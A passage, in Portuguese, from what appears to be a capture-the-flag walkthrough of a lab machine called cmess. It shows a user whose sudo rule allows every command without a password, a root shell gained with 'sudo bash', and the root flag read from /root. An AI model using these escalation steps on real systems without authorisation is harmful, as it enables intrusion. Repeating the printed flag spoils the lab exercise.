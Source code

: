 Passado dois minutos, este é o retorno de nosso **sudo -l**:

```
andre@cmess:~/backup$ sudo -l  
User andre may run the following commands on cmess:  
   (root) NOPASSWD: ALL
```

E a partir disso, conseguimos **root** sem sequer inserir a senha:

```
andre@cmess:~/backup$ sudo bash  
root@cmess:~/backup#
```

Na pasta **/root** encontramos nossa **segunda flag**:

```
root@cmess:~/backup# cd /root  
root@cmess:/root# ls  
root.txt  
root@cmess:/root# cat root.txt    
thm{9f85b7fdeb2cf96985bf5761a93546a2}  
root@cmess:/root#
```
